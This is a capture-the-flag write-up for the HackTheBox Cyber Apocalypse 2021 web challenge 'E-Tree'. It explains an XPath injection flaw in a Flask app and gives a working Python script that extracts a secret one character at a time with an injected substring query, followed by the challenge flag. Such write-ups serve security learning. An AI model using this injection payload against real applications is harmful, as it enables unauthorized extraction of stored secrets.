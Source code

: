 ```yaml
---
name: E-Tree (2021)
event: HackTheBox Cyber Apocalypse CTF 2021
category: Web
description: Writeup for E-Tree (Web) - HackTheBox Cyber Apocalypse CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# E-Tree

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/vqR4i730soY/0.jpg)](https://youtu.be/vqR4i730soY?t=2162s "HTB Cyber Apocalypse CTF 2021: E-Tree")

## Challenge Description

> E.Tree was a Python Flask application that used XPATH to parse XML files. We were presented with an example XML file from where we could see that some users have an additional selfDestructCode element set. Knowing this, we were able to do an error-based XPATH injection to determine the flag.

## Solution

{% code overflow="wrap" %}
```py
import requests
import string
from time import sleep

flag_pt1 = "CHTB{Th3_3xTr4_l3v3l_"
flag = "4Cc3s$_c0nTr0l}"
url = "http://139.59.168.47:30661/api/search"

# Each time a successful login is seen, restart loop
restart = True
count = len(flag) + 1

while restart:
    restart = False
    for char in "_" + string.ascii_letters + string.digits + "!#$%^()@{}£&*-=+.,~:;[]":
		# Update position index for the 2 seperate flag parts
        post_data = {"search": "' or substring((/military/district[position()=3]/staff[position()=2]/selfDestructCode)," + str(count) + ",1)=\"" + char + "\" or ''=' "}
        print(post_data)
        try:
            r = requests.post(url, json=post_data, headers={'Content-Type': 'application/json'})
        except BaseException:
            pass
        # Correct char results in "successful password"
        if 'exists' in r.text:
            restart = True
            count += 1
            flag += char
            print(flag)
            # Exit if "}" gives a valid redirect
            if char == "}":
                print("\nFlag: " + flag)
                exit(0)
            break

        sleep(1)
```
{% endcode %}

Flag: `CHTB{Th3_3xTr4_l3v3l_4Cc3s$_c0nTr0l}`
